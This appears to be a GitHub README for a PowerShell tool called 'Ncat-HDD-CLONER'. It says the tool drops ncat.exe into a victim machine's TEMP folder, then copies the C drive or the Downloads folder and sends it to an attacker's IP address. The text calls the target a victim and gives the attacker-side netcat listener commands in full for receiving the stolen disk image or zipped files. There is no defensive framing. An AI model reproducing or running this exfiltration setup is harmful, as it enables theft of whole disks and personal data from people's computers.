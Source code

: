 # Ncat-HDD-CLONER
This script is coded in powershell, How it works, it will go no and download ncat.exe file in the 
/TEMP location of your victim machine and after it will go on and clone the local disk C or Downloads depending
to the script you use and it sends it to the attacks's ip address.
```text
change the port and ip address in the script to attack's ip
```
Usage:

Linux machine Receiver with ==C:cloner.ps1==
```
nc -l -p 12345 | pv | dd of=/path/to/target/image.img bs=4M
```

Linux machine Receiver with ==Downloads:cloner.ps1==
```
nc -l -p 12345 > Downloads.zip && unzip Downloads.zip -d /path/to/extract/
```
This command receivers the zipped data sent by ncat and unzip it to the provided location
